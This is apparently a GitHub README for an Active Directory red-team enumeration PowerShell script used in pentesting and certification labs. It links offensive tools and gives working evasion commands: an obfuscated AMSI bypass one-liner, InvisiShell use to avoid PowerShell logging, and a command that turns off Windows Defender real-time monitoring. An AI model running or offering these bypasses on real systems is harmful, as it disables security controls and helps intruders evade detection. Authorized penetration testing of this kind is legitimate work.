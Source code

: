 # ADRedTeamEnumScript

This AD Red Team Enumeration Script is used to query a lot of aspects of your target Forest. The script will save all output from each enumeration task into a folder separating out the output files into appropriate folders for analyze later. This script saved me a lot of time on the enumeration portion for the [Pentester Academy CRTE](https://www.pentesteracademy.com/redteamlab) exam. Will be extremely useful for any traditional AD pentesting engagement. The script contains more information within it to help you enumerate discovered resources further, so ensure you read the commented out portions! 

This script is also designed to run other popular scripts and modules intended to get the most information out of your target AD Domain. You should look into their project to understand the full capabilities of the tools besides the small task performed within this script.

* [Microsoft AD Module (Powershell)](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2019-ps)
* [Invishell](https://github.com/OmerYa/InvisiShell)
* [ADACLScan](https://github.com/canix1/ADACLScanner)
* [Find-PSServiceAccounts](https://github.com/PyroTek3/PowerShell-AD-Recon)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
* [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
* [Rubeus](https://github.com/GhostPack/Rubeus/releases/tag/1.6.4)

## Usage

Not necessary to be an admin to run the script, but of course easier to get around most security features, heres a few tips that will help prevent the script from being blocked:

### Bypassing PowerShell Security

**To avoid verbose PowerShell logging - use [invishell](https://github.com/OmerYa/InvisiShell) (RunWithRegistryNonAdmin)**
```C:\PATH\TO\SCRIPTS\InviShell\RunWithRegistryNonAdmin.bat```

**AntiMalware Scan Interface (AMSI) may detect some tools when you load them. Uses the following AMSI bypass:**
```sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )```

**Stop Windows Defender (need to be admin)**

```Set-MpPreference -DisableRealTimeMonitoring $true```
                             
After which you can run the script to enumerate your target. Now we can run the script on the vitim system that in joined to your target AD domain.

1. Download the repo and rename folder as 'scripts' or whatever you choose, but you'll need to modify the ADRedTeamEnumScripts.ps1, ComputersUsersGroups.ps1, DomainInfoTrusts.ps1, DCEnum.ps1 and GPOInfo.ps1 scripts in order for everything to work correctly. This repo includes the modules and scripts you need already inside the `bin` folder.

Want to do it manually:

1. Download all the scripts/tools mention above.

2. Store them in a folder called `bin`, inside another folder called `scripts`. 

3. Add the enumeration scripts inside the folder `scripts`. As shown below:

![ADredTeamEnumScript2](https://user-images.githubusercontent.com/20993128/129828201-8302ade2-9926-4c7b-ab9f-6433b997bd09.png)

4. Run the first full script:

```.\ADRedTeamEnumScripts.ps1```

![ADredTeamEnumScript](https://user-images.githubusercontent.com/20993128/129827187-3b424d44-436d-44ad-95ed-aa2cfe0ea8c2.png)

## Author
- [@n3t1nv4d3](https://twitter.com/n3t1nv4d3) author and researcher (https://github.com/n3t1nv4d3).
- Sources for other scripts used are linked to their names up above, thanks to your work I was able to create my personalize enum script. 
